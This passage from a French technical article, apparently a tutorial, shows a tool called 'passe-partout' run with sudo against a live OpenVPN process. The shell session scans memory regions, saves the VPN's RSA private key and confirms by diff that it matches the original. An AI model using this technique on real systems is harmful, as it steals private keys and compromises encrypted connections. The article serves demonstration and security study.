 



## OpenVPN

La méthode est identique avec OpenVPN :


```bash
  $ ps aux|grep openvpn
  root     30006  0.0  0.1   5116  3060 pts/25   S+   14:54   0:00 openvpn openvpn.config
  jb       31179  0.0  0.0   3056   824 pts/22   R+   15:02   0:00 grep --color openvpn
  $ sudo ./passe-partout 30006
  Target has pid 30006
  testing /lib/tls/i686/cmov/libc-2.10.1.so (0x251000)
  testing anonymous (0x252000)
  testing /lib/i686/cmov/libcrypto.so.0.9.8 (0x4ea000)
  testing anonymous (0x4f7000)
  testing /usr/lib/liblzo2.so.2.0.0 (0x747000)
  testing /lib/libz.so.1.2.3.3 (0x794000)
  testing /lib/tls/i686/cmov/libpthread-2.10.1.so (0x979000)
  testing anonymous (0x97a000)
  testing /lib/ld-2.10.1.so (0xc0f000)
  testing /lib/tls/i686/cmov/libdl-2.10.1.so (0xc52000)
  testing /lib/i686/cmov/libssl.so.0.9.8 (0xd82000)
  testing /usr/lib/libpkcs11-helper.so.1.0.0 (0xf7b000)
  testing /usr/sbin/openvpn (0x80c0000)
  testing anonymous (0x80c1000)
  testing [heap] (0x85c3000)
  [X] Valid RSA key found.
  [X] Key saved to file id_rsa-0.key
  [-] invalid DSA key.
  [-] invalid DSA key.
  [-] invalid DSA key.
  [-] invalid DSA key.
  testing anonymous (0xb7754000)
  testing anonymous (0xb778f000)
  testing [stack] (0xbfdab000)
  done for pid 30006
```


L'extraction a réussi, comme le montre la comparaison de cette clé avec la clé
originale :



```bash
  $ diff -s ida_ras-0.key /crypt/Certificats/my.key
  Les fichiers id_rsa-0.key et /crypt/Certificats/my.key sont identiques.
```


# Conclusion
